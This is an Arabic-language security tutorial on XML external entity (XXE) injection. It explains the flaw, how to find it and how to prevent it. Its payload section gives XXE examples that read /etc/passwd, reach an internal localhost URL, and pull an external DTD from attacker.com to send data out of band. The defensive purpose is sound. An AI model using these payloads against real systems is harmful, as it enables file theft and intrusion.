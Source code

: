 - <details>
     <summary>XXE</summary>


# XML external entity (XXE) injection

في هذا الملف نشرح ما هو **XML external entity injection (XXE)**، نعرض أمثلة شائعة، نشرح كيفية العثور على الثغرة واستغلالها بأنواعها المختلفة، ونلخّص طرق الوقاية.

> **تحذير**: الأمثلة والتعليمات هنا مخصّصة للأغراض التعليمية واختبار الأمن على بيئات قانونية (مختبرات PortSwigger / HTB / VM خاص بك). لا تستخدمها على أنظمة غير ملكك.

---

## 1) ما هو XXE باختصار

**XML External Entity (XXE)** هو ثغرة تحدث عندما يعالج السيرفر بيانات XML ويقبل تعريفات DTD/Entities خارجية بدون تحقّق. المهاجم يقدر يعرف `ENTITY` مرتبط بملف أو URL، وبهذا يستطيع:

* الاطّلاع على ملفات على ملفّ نظام السيرفر (file disclosure).
* تنفيذ **Server-Side Request Forgery (SSRF)** للوصول إلى أنظمة داخلية يقدر التطبيق الوصول لها.
* استخراج بيانات *out-of-band* (مثل DNS/HTTP callbacks) إلى نظام المهاجم.
* التسبّب بأخطاء تكشف بيانات حسّاسة (error-based).

## 2) لماذا تحدث الثغرة؟

لأن مكتبات ومعالجات XML الافتراضية تدعم خصائص مثل DTDs وExternal Entities، وفي كثير من التطبيقات لا يقوم المطوّرون بتعطيل هذه الميزات أو تأمينها.

## 3) أنواع هجمات XXE

* **استرجاع الملفات مباشرة (Direct file retrieval)**: تعريف `ENTITY` يقرأ ملف محلي ويُدرَج في الاستجابة.
* **SSRF عبر XXE**: تعريف `ENTITY` يوجّه إلى URL داخلي (مثلاً `http://127.0.0.1:8080/admin`).
* **Blind OOB (DNS/HTTP callback)**: لا تعرض البيانات في الاستجابة لكن السيرفر يتصل بعنوان يتحكم فيه المهاجم لتسليم المحتوى.
* **Error-based**: التلاعب بالـXML لإحداث خطأ يحتوي على بيانات حسّاسة.

## 4) أمثلة Payload )

**تنبيه قوي:** استخدم الأمثلة في بيئات قانونية فقط.

**File disclosure (بسيط):**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

**SSRF (طلب HTTP داخلي):**

```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:8000/secret">
]>
<root>&xxe;</root>
```

**Blind OOB (DNS/HTTP callback):**

```xml
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://attacker.com/payload.dtd">
  %remote;
]>
<root>&send;</root>
```

`payload.dtd` على جهة المهاجم يمكن أن يعرّف ENTITY يرسل محتوى ملف إلى `attacker.com` أو يسبب DNS lookup فريد.

## 5) كيف تلاقي XXE )

* ابحث عن نقاط إدخال تستقبل XML (APIs، SOAP، SAML assertions، RSS/Atom، file uploads).
* جرّب إدخال نص يحتوي `<!DOCTYPE` — إذا ظهر خطأ متعلق بالـDTD فقد تكون نقطة دخول.
* استخدم أدوات مثل Burp Repeater أو curl لإرسال الـpayloads.
* لاختبارات OOB استخدم Burp Collaborator أو DNSLog أو خدمة DNS قابلة للتحكّم. أي callback يؤكّد وجود ثغرة blind XXE.
* راقب السجلات لسلوك outgoing HTTP/DNS أثناء الاختبار.
* استخدم أدوات أتمتة كـBurp Scanner أو Nuclei مع قوالب XXE، لكن اليدوي غالباً أقوى للحالات المعقدة.

## 6) استراتيجيات الاستغلال حسب النوع

* **إذا كانت الاستجابة تعرض المحتوى مباشرة** → استخدم payloads لاسترجاع ملفات.
* **إذا لم تظهر بيانات لكن تملك OOB** → استخدم DTD خارجي يطلب مورد على سيرفر المهاجم.
* **إذا كان parser يمنع DTD لكن يسمح بالـentities** → جرّب تقنيات blind عبر الأخطاء أو التوقّعات الزمنية.
* **إذا كان السيرفر يمنع تحميل موارد خارجية** → ابحث عن رسائل خطأ تفصّل أجزاء من الملف.

## 7) كيف تمنع XXE — خطوات عملية

1. **تعطيل معالجة DTD والـExternal Entities** في parser (الأهم). أمثلة:

   * **Java (javax.xml):**

   ```java
   factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
   factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
   ```

   * **.NET:**

   ```csharp
   XmlReaderSettings settings = new XmlReaderSettings();
   settings.DtdProcessing = DtdProcessing.Prohibit;
   ```

   * **Python:** استخدم مكتبة `defusedxml` بدلاً من معالجات XML الافتراضية غير الآمنة.

   * **PHP:** `libxml_disable_entity_loader(true);` — راجع التوثيق لأن بعض الدوال تغيّرت في الإصدارات الحديثة.

2. **تحديث المكتبات**: استعمل نسخ parser آمنة ومحدّثة.

3. **التحويل إلى JSON** إذا لم تكن تحتاج ميزات XML المعقّدة.

4. **تقييد الشبكة والصلاحيات**: امنع التطبيق من إجراء طلبات خارجية أو قيّدها جدارياً، وشغّل الخدمة بصلاحيات محدودة.

5. **التحقّق من المدخلات**: لا تعالج XML مباشرة من مصادر غير موثوقة دون تحقق.

6. **مراقبة outgoing DNS/HTTP** وفعّل Logging/IDS.

7. **اختبار أمني دوري**: ضمن فحص XXE ضمن الاختبارات الآلية واليدوية.

## 8) نصايح في الكود — أمثلة سريعة

* **Java**: تعطيل DTD كما سلف.
* **Python**: استخدم:

```python
from defusedxml import ElementTree as ET
root = ET.fromstring(user_xml)
```

* **.NET**: منع DTD عبر `XmlReaderSettings`.

## 9) إشارات إنك معرض للثغرة

* التطبيق يتعامل مع SOAP, SAML, RSS أو يقبل ملفات XML من المستخدمين.
* وجود مكتبات معالجة XML قديمة.
* سجلات تظهر محاولات تحميل موارد خارجية أثناء معالجة XML.



     
</details>
